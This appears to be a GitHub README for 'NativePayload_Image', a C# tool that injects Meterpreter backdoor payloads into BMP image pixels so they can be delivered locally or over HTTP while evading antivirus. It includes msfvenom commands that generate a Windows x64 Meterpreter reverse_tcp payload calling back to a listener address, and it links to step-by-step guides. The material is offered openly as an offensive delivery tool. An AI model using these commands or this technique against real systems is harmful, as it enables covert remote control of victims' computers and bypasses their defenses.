 # NativePayload_Image
Transferring Backdoor Payloads with BMP Image Pixels also Bypassing AVS
with this tool you can Make and Modify Bitmap files for Injecting Meterpreter payload to file also you can use this tool like backdoor for Getting Meterpreter Session by Local Bitmap Files or With Downloading Bitmap Files by Url  (HTTP Traffic).

for more information and using tool "NativePayload_Image.exe" Step by Step Please visit one of these links :
         link: https://www.peerlyst.com/posts/transferring-backdoor-payloads-with-bmp-image-pixels-damon-mohammadbagher 
         , link: https://www.linkedin.com/pulse/transferring-backdoor-payloads-bmp-image-pixels-damon-mohammadbagher
   
   C# Code : NativePayload_Image.exe  ,  Published by Damon Mohammadbagher
   
        /// .Net Framework 2.0 , 3.5 and 4.0 only supported
        /// .Net Framework 4.5 and 4.6 Not Supported ;O
        
        /// Windows 2008 R2 tested with BMP Format only .
        /// Note : tested and worked by MS Paint for Viewing bmp files only.
        
        /// in kali linux you can use "hexeditor" command and in windows you can use "Hex editor NEO".
        /// for meterpreter payload
        /// msfvenom --platfoem windows --arch x86_64 -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.2 -f c > payload.txt
        /// msfvenom --platfoem windows --arch x86_64 -p windows/x64/meterpreter/reverse_tcp lhost=192.168.1.2 -f num > payload.txt 
        
        
        for more information and using tool "NativePayload_Image.exe" Step by Step Please visit one of these links :
        1. link: https://www.peerlyst.com/posts/transferring-backdoor-payloads-with-bmp-image-pixels-damon-mohammadbagher
        2. link: https://www.linkedin.com/pulse/transferring-backdoor-payloads-bmp-image-pixels-damon-mohammadbagher
        
<p><a href="https://hits.seeyoufarm.com"><img src="https://hits.seeyoufarm.com/api/count/incr/badge.svg?url=https://github.com/DamonMohammadbagher/NativePayload_Image"/></a></p>
        
       
        
